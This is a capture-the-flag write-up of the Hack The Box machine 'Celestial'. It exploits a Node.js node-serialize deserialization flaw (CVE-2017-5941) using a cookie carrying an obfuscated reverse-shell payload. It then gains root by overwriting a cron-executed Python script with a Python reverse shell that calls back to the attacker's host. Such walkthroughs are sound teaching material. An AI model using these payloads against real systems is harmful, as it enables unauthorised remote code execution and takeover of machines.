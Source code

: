 # Celestial Write Up

## Summary

> - Exploit Node.js deserialization RCE bug ([CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941)) to get user shell
> - `crontab` runs user-writable script as root, so replacing script with reverse shell allows privilege escalation to root

## Enumeration

Start off by enumerating the server with `masscan` and `nmap` scans on all 65535 ports.

### Nmap Scan Results

```shell
root@kali:~/Desktop/HTB/Celestial# nmap -sS -sV -sC -p 3000 10.10.10.85      

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-25 22:22 +08
Nmap scan report for 10.10.10.85
Host is up (0.36s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds
```

An important information was obtained from the scan – Port 3000 is running `Node.js Express framework` .

### Banner Grabbing

Doing banner grabbing with `curl` returned the following:

```http
root@kali:~/Desktop/HTB/Celestial# curl -vvv 10.10.10.85:3000
* Rebuilt URL to: 10.10.10.85:3000/
*   Trying 10.10.10.85...
* TCP_NODELAY set
* Connected to 10.10.10.85 (10.10.10.85) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.85:3000
> User-Agent: curl/7.60.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sat, 25 Aug 2018 14:38:22 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 12
< ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
< Date: Sat, 25 Aug 2018 14:23:22 GMT
< Connection: keep-alive
< 
* Connection #0 to host 10.10.10.85 left intact
<h1>404</h1>r
```

Notice that there is a `Set-Cookie` HTTP Header sent in the response.

The value of the cookie is:

```
profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

`%3D%3D` decodes to `==`, and this could indicate that the cookie set is Base64-encoded. 

Base64-decoding the string reveals the actual decoded value of the `profile` cookie is actually a JSON object:

```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

## Manipulating `profile` Cookie

By messing around with the JSON object and supplying an invalid JSON object, detailed stack trace error can be observed:

![errors](https://raw.githubusercontent.com/lycjackie/boot2root/master/images/celestial.png)

It can be seen that `node-serialize` module was used to `unserialize` the `profile` cookie.

Doing a quick Google search, it is apparent that [node-serialize v0.04](https://www.npmjs.com/advisories/311) had a Remote Code Execution (RCE) bug that can be triggered during deserialization using Immediately Invoked Function Expression (IIFE) in crafted JSON objects ([more details here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)).

## Getting User Shell

Adapting node.js reverse shell payload from https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py, the crafted JSON object formed resembled the following:

```json
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,52,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

Upon amending the `profile` cookie with our reverse shell payload in Burp Intercept and forwarding the request, a reverse shell to user `sun` is obtained:

```shell
root@kali:~/Desktop/HTB/Celestial# nc -lnvp 443
Listening on [10.10.14.144] (family 0, port 443)
Connection from 10.10.10.85 51901 received!
sun@sun:~$ 
```

## Getting Root Shell

Right off the bat, there is a suspicious file in sun’s `home` directory staring at you:

```shell
sun@sun:~$ ls -la
ls -la
total 152
...
-rw-r--r--  1 root root   21 Aug 25 10:30 output.txt
sun@sun:~$ date
date
Sat Aug 25 10:36:10 EDT 2018
```

The `output.txt `is owned by root and the `date` command show that the system time is only 1 min after modification of the file. This is suspicious, and it got me thinking that perhaps there is be a `cronjob` running as `root` in the background.

Further enumeration reveals other files:

```shell
sun@sun:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 sun sun 4096 Mar  4 15:08 .
drwxr-xr-x 21 sun sun 4096 Aug 25 10:01 ..
-rw-rw-r--  1 sun sun   29 Sep 21  2017 script.py
-rw-rw-r--  1 sun sun   33 Sep 21  2017 user.txt
sun@sun:~/Documents$ cat script.py
cat script.py
print "Script is running..."
sun@sun:~/Documents$ cat ../output.txt
cat ../output.txt
Script is running...

```

Note that the content of `output.txt` is identical to the output of executing`script.py`. This raises further suspicion on the existence of `cronjob` executing the script as `root` periodically.

Also note that owner of `script.py` is `sun` – our user shell :)
This means we have write-permissions of the file!

Replacing the contents of `script.py` with our favorite reverse shell for Python from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.144",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

And after 5 mins of waiting. 

Tada root shell!

```
root@kali:~/Desktop/HTB/Celestial# nc -lnvp 443
Listening on [10.10.14.144] (family 0, port 443)
Connection from 10.10.10.85 56813 received!
root@sun:~# wc -c root.txt
wc -c root.txt
33 root.txt
root@sun:~# whoami
whoami
root
root@sun:~# 
```

## FIN

After getting root. `crontab -l` showed the following:

```
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

